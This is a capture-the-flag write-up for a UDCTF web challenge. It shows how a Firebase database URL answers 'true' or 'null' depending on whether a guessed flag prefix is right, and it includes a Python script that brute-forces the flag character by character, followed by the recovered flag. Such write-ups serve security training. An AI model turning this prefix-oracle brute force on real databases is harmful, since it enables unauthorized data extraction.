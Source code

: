 # BLUE HENS UDCTF
## Best Bathroom on Campus
![attached image](bestbathroom.png)
https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json

```category: WEB```
```challange points: 100```

we have only given the URL as we open this a string ```true``` is written. Point of writing ```true``` here is that something is correct right now , ```UDCTF``` in url giving thought of flag format. I put an extra curly bracket ```UDCTF{``` in URL it's still ```true``` then i put random character ```UDCTF{a``` , now string come as ```Null``` .Also image attached in Description also indicating that its correct till```UDCTF{``` and we have to find further and URL will check if flag is correct then it prints ```true``` otherwise prints ```Null```.
So i wrote a exploit to bruteforce character....
```python
import requests
import string

base_url = "https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{"
last_url = ".json"
characters = "1_'?#@abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

while True:
    found = False
    for character in characters:
        url = f"{base_url}{character}{last_url}"
        response = requests.get(url)
        if "true" in response.text:
            print(f"here: {character}")
            base_url += character
            found = True
        else:
            continue        
```

this script tries bruteforcing of characters at end of ```UDCTF{``` and if ```true``` is found in response it will brute characters again at next place.    
and this script prints flag as :
**UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}**


